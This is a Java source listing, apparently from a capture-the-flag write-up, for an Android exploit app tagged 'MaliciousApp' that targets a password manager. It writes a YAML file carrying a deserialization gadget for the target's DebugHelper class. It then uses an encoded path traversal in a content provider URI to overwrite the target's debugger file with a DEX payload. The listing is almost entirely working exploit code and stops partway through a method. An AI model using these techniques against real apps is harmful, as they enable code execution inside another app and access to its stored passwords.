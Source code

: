 MainActivity.java (for apk)
```java
package com.bengsky.exploitpm;

import android.content.ContentResolver;
import android.content.ContentValues;
import android.content.Context;
import android.net.Uri;
import android.os.Bundle;
import android.os.ParcelFileDescriptor;
import android.util.Log;

import androidx.appcompat.app.AppCompatActivity;

import java.io.BufferedReader;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.InputStreamReader;

import android.os.Bundle;
import android.util.Log;

public class MainActivity extends AppCompatActivity {
    private static final String TAG = "MaliciousApp";

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // Call writeToFile here, passing the activity context
        Log.d(TAG, "Calling writeToFile method");
        writeToFiles(this, "pwds.yml", "\n- id: 3\n  application: test\n  username: yaw\n  password: cc\n"+
        "debugHelper:\n"+
        "  autoStart: !!com.aimardcr.pwdmanager.DebugHelper [True]");
        writeDebugger(this);
    }
    public static void writeDebugger(Context context) {
        try {
            // Ensure context is valid
            if (context == null) {
                Log.d(TAG, "Context is null");
                return;
            }
            Uri fileUri = Uri.parse("content://com.aimardcr.pwdmanager/%2E%2E%2Ffiles%2Fdebugger");
            Log.d(TAG, "File URI constructed: " + fileUri.toString());

            // Get ContentResolver and open the file descriptor
            ContentResolver contentResolver = context.getContentResolver();
            ParcelFileDescriptor pfd = contentResolver.openFileDescriptor(fileUri, "wt"); // Open file in write mode
            Log.d(TAG, "ParcelFileDescriptor opened");

            if (pfd != null) {
                // Convert the hex string into a byte array
                String hexString = "<HEX DEX>";  // Truncated for readability
                byte[] bytes = hexStringToByteArray(hexString);

                // Write the bytes to the file
                FileOutputStream fileOutputStream = new FileOutputStream(pfd.getFileDescriptor());
                fileOutputStream.write(bytes);
                fileOutputStream.close();
```